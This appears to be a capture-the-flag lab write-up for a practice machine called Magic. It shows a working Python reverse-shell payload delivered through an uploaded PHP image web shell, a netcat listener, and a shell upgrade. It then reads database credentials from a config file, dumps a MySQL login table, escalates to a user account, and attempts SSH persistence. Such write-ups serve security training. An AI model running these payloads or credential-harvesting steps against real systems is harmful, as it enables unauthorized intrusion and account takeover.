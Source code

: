 #### 3.1. Unprivileged shell

1) Python rev-shell payload

```
# cmd="python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'"
# http http://10.10.10.185/images/uploads/image.php.jpg?c="$cmd" | strings
```

2) Listener

```
# nc -nvlp 9999
listening on [any] 9999 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.185] 53396
bash: cannot set terminal process group (1119): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$
```

3) TTY shell

```
# www-data@ubuntu:/var/www$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www$ ^Z
[1]+  Stopped                 nc -nvlp 9999
# stty raw -echo
# fg
# export SHELL=/bin/bash; export TERM=xterm-256color; stty rows 512 columns 256; reset
www-data@ubuntu:/var/www$ tty
/dev/pts/1
```

#### 3.2. Enum on the box

Note: found some MySQL credentials.

```
www-data@ubuntu:/var/www/Magic$ cat db.php5
cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
```

#### 3.3. User flag

1) is the DB password same as user password?
```
www-data@ubuntu:/tmp$ su theseus
Password: iamkingtheseus
su: Authentication failure
```

2) can we dump anything from the `Magic` database?
```
www-data@ubuntu:/tmp$ mysqldump --databases Magic -utheseus -piamkingtheseus | grep -i insert
mysqldump: [Warning] Using a password on the command line interface can be insecure.
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```

3) obtained password for `theseus`
```
www-data@ubuntu:/tmp$ su theseus
Password: Th3s3usW4sK1ng
theseus@ubuntu:/tmp$ cat ~/user.txt
7ec4600d2f446b84b0e3e53a8e712cff
```

#### 3.4. Persistent remote access (optional for this box)

Note: SSH password login is disabled

```
# sshpass -pTh3s3usW4sK1ng ssh -o StrictHostKeyChecking=no theseus@10.10.10.185
Warning: Permanently added '10.10.10.185' (ECDSA) to the list of known hosts.
theseus@10.10.10.185: Permission denied (publickey).
```
Alternative is to add out public key to `~/.ssh/authorized_keys`
